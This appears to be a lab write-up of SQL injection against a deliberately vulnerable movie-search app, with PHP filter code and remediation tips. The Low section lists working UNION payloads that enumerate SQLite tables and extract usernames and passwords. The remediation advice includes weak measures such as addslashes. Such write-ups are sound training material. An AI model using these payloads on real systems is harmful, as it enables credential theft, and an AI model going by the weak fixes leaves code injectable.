




# 1. Low

When using this app, first sight is following page. When trying to put data and search, there were 2 parameters: `title=<UserInput>` and `action=search`


Trying search with single quote (`'`) and  the server returned `Error: HY000` which mean **Datatype Mismatch with SQLite Database**. Trying more with evil parameters:

Determining number of column with `order by` statements:
- Payload: `null'order+by+1--` >> Response: **No movies were found!**
- Payload: `null'order+by+7--` >> Response: **Error: HY000** which mean out of range column

Get table name from `sqlite_master`
- Payload: `null'UNION+SELECT+1,name,null,null,null,null+FROM+sqlite_master--`



Selecting table name from `sqlite_master`:
- Payload: `null'UNION+SELECT+1,tbl_name,3,4,5,6+FROM+sqlite_master--`



Get SQL query from `users` table:
-Payload: `null'UNION+SELECT+1,sql,3,4,5,6+FROM+sqlite_master+WHERE+name='users'--`



Exstracting `login` and `password` in `users` table:
-Payload: `null'UNION+SELECT+1,login||":"||password,3,4,5,6+FROM+users--`




---
# 2. Medium
In medium level, the backend using `sqli_check_4()`

```php
function sqli($data){  
    switch($_COOKIE["security_level"])  
    {  
        case "0" :  
            $data = no_check($data);  
            break;  
        case "1" :  
            $data = sqli_check_4($data);  
            break;  
        case "2" :  
            $data = sqli_check_4($data);  
            break;  
        default :  
            $data = no_check($data);  
            break;  
    }  
    return $data;  
}
```

This mean when we closing the statement that it automatically opening for new statement and make it correct.

```php
function sqli_check_4($data){  
    $input = str_replace("'", "''", $data);  
    return $input;  
}
```

---
# 3. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)